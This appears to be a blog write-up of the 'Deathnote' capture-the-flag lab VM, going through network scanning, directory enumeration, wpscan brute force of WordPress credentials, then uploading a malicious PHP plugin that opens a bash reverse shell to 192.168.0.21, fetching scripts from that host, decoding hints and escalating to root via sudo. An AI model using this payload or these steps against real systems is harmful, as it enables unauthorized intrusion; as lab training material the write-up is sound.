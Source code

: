 ```yaml
---
layout: post
title: CTF Deathnote
date:   2022-02-07 19:20:57 -0600
categories: CTF
tags: Linux
---
```



# Netdiscover

```sh
sudo netdiscover
```
![](https://i.imgur.com/WFcROuF.png)
192.168.0.27 

# nmap
```sh
nmap -sV -p- 192.168.0.27 
```
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# gobuster

```sh
gobuster dir -t 100 -u http://192.168.0.27 -w Documents/wordlist/directory-list-medium.txt
```
```sh
===============================================================
2022/02/07 19:28:21 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 316] [--> http://192.168.0.27/wordpress/]
/manual               (Status: 301) [Size: 313] [--> http://192.168.0.27/manual/]   
/server-status        (Status: 403) [Size: 277]
```

```sh
gobuster dir -t 100 -u http://192.168.0.27/wordpress -w Documents/wordlist/directory-list-medium.txt
```
```sh
===============================================================
2022/02/07 19:30:38 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 327] [--> http://192.168.0.27/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 328] [--> http://192.168.0.27/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 325] [--> http://192.168.0.27/wordpress/wp-admin/]   
```



# /etc/hosts
![](https://i.imgur.com/9frue8A.png)
`/etc/hosts`
```sh
192.168.0.27 deathnote.vuln
```
Now I can load the website. 
![](https://i.imgur.com/YaUlybI.jpg)
# Hint in the source code
view-source:http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/
![](https://i.imgur.com/IpcTseO.png)

```sh
wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt
wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
```
So user is a list of username and notes should be a list of password.


# brute force wordpress

```sh
echo "iamjustic3" >> user.txt
echo "iamjustic3" >> notes.txt
echo "L" >> user.txt
echo "L" >> notes.txt
```
```sh
wpscan --url http://192.168.0.27/wordpress/ -U user.txt -P notes.txt
```
[SUCCESS] - KIRA / iamjustic3                                                                                                                                                                   
[SUCCESS] - kira / iamjustic3  
Good, now I have to login and upload a revers shell in php.
# Upload the payload
![](https://i.imgur.com/r3E51af.png)

```sh
vim rs.php

<?php 
/**
 * Plugin Name: Peanut's Revers Shell
 * Author: Peanutstick
 */
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.21/4648 0>&1'");
?>
```

```sh
zip -r rs.zip rs.php 
nc -lvp 4648
```

Now I can send the file, and activate it.
![](https://i.imgur.com/Uj1Qzvg.png)
![](https://i.imgur.com/JZ77CUf.png)

# Enumeration
## Downloading my scripts
On my computer:
```sh
python2.7 -m SimpleHTTPServer
```
On the target
```sh
mkdir sc
cd sc
wget http://192.168.0.21:8000/lse.sh
wget http://192.168.0.21:8000/lp.sh
chmod +x lse.sh lp.sh
./lse.sh
./lp.sh
```
Nothing interesting with the lse
lp:
Sound interesting
```sh
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
/usr/bin/gettext.sh
```
Good
```sh
╔══════════╣ Analyzing SSH Files (limit 70)

-rw-r--r-- 1 kira kira 393 Jul 19  2021 /home/kira/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDyiW87OWKrV0KW13eKWJir58hT8IbC6Z61SZNh4Yzm9XlfTcCytDH56uhDOqtMR6jVzs9qCSXGQFLhc6IMPF69YMiK9yTU5ahT8LmfO0ObqSfSAGHaS0i5A73pxlqUTHHrzhB3/Jy93n0NfPqOX7HGkLBasYR0v/IreR74iiBI0JseDxyrZCLcl6h9V0WiU0mjbPNBGOffz41CJN78y2YXBuUliOAj/6vBi+wMyFF3jQhP4Su72ssLH1n/E2HBimD0F75mi6LE9SNuI6NivbJUWZFrfbQhN2FSsIHnuoLIJQfuFZsQtJsBQ9d3yvTD2k/POyhURC6MW0V/aQICFZ6z l@deathnote

ChallengeResponseAuthentication no
UsePAM yes
```
Users:
```sh
╔══════════╣ Last time logon each user
Username         Port     From             Latest
root             tty1                      Mon Jul 19 11:26:48 -0400 2021
l                pts/0    192.168.1.6      Sat Sep  4 06:12:29 -0400 2021
kira             pts/1    127.0.0.1        Sat Sep  4 06:00:09 -0400 2021
```

# L home
In the file user.txt
```sh
www-data@deathnote:/home/l$ cat us*     
cat us*
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```
Brainfuck
![](https://i.imgur.com/5rGjTsT.png)
i think u got the shell , but you wont be able to kill me -kira

let's dive deeper.
# /opt/L

```sh
www-data@deathnote:/opt/L/fake-notebook-rule$ file case.wav
file case.wav
case.wav: ASCII text
www-data@deathnote:/opt/L/fake-notebook-rule$ cat case.wav
cat case.wav
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
```
https://www.convertstring.com/fr/EncodeDecode/HexDecode
And I got this: cGFzc3dkIDoga2lyYWlzZXZpbCA=
https://www.base64decode.org/
And I got this: "passwd : kiraisevil"
`kiraisevil`

I've tried this password with the ssh key and without, it's not for the ssh.

# kira
```sh
su kirra
Password: kiraisevil
id
uid=1001(kira) gid=1001(kira) groups=1001(kira),27(sudo)
```
Spawn a better shell
```sh
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
Read kira.txt
```sh
cat /home/kira/kira.txt

cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
```
Oh no... I don't like this.
Nvm let's be root

```sh
$ sudo -l
sudo -l
[sudo] password for kira: kiraisevil                                                                          

Matching Defaults entries for kira on deathnote:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kira may run the following commands on deathnote:
    (ALL : ALL) ALL
```
The basic sudo su.
![](https://i.imgur.com/WLlISuT.png)



 
 


